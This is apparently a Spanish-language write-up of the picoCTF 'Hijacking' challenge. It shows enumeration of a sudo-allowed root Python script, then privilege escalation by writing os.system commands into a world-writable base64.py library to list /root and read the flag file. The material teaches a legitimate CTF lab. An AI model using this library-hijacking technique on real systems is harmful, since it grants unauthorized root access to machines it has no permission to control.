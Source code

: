 # Hijacking

Este ejercicio nos ofrece una sesión ssh.

Si hacemos un poco de enumeración por la maquina podemos ver 2 cosas interesantes:

1. Archivo .server.py en la carpeta picoctf

```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

2. Sudoer

```c
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

He intentado hacer un PATH hijacking pero no tuve éxito. Luego de esto podemos intentar mirar si podemos hacer un hijacking pero de las librerías.

Primero vamos a ver donde están las librerías:

```bash
picoctf@challenge:~$ python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
```

Navegando por esos directorios podemos ver unos permisos críticos en una de las librerías que usa el programa

```bash
-rwxrwxrwx 1 root root  20382 May 26  2023 base64.py
```

Vamos a introducir las siguientes líneas en el archivo para hacer un mapeo rápido del directorio root para ver la flag:

```python
import os
os.system('ls -al /root > /home/picoctf/mapeo.txt')
```

Podemos introducir la siguiente linea en el archivo y conseguir la flag:

```python
os.system('cat /root/.flag.txt')
```

```python
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
picoCTF{SECRETO} # FLAG
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
picoctf@challenge:~$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
```
